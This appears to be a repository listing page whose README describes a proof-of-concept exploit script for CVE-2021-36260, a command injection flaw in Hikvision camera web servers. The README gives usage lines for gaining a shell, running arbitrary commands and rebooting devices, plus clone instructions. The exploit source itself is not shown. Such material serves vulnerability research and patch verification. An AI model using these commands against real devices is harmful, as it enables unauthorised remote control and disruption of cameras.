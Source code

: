 # CVE-2021-36260

command injection vulnerability in the web server of some Hikvision product. Due to the insufficient input validation, attacker can exploit the vulnerability to launch a command injection attack by sending some messages with malicious commands.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Aiminsun](https://github.com/Aiminsun) |
| Url      | [https://github.com/Aiminsun/CVE-2021-36260](https://github.com/Aiminsun/CVE-2021-36260)                                               |
| Stars    | 186                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-36260
CVE-2021-36260 POC command injection vulnerability in the web server of some Hikvision product. Due to the insufficient input validation, attacker can exploit the vulnerability to launch a command injection attack by sending some messages with malicious commands.

Exploit Title: Hikvision Web Server Build 210702 - Command Injection

Exploit Author: bashis

Vendor Homepage: https://www.hikvision.com/

Version: 1.0

CVE: CVE-2021-36260

Reference: https://watchfulip.github.io/2021/09/18/Hikvision-IP-Camera-Unauthenticated-RCE.html

# All credit to Watchful_IP


Note:
1)  This code will _not_ verify if remote is Hikvision device or not.
2)  Most of my interest in this code has been concentrated on how to
    reliably detect vulnerable and/or exploitable devices.
    Some devices are easy to detect, verify and exploit the vulnerability,
    other devices may be vulnerable but not so easy to verify and exploit.
    I think the combined verification code should have very high accuracy.
3)  'safe check' (--check) will try write and read for verification
    'unsafe check' (--reboot) will try reboot the device for verification

[Examples]
Safe vulnerability/verify check:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check

Safe and unsafe vulnerability/verify check:
(will only use 'unsafe check' if not verified with 'safe check')
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check --reboot

Unsafe vulnerability/verify check:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --reboot

Launch and connect to SSH shell:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --shell

Execute command:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd "ls -l"

Execute blind command:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd_blind "reboot"




## Get the content

```
git clone https://github.com/Aiminsun/CVE-2021-36260
cd CVE-2021-36260
```

{% embed url="https://github.com/Aiminsun/CVE-2021-36260" %}

<figure><img src="https://avatars.githubusercontent.com/u/58260225?v=4" alt=""><figcaption><p>Aiminsun</p></figcaption></figure>
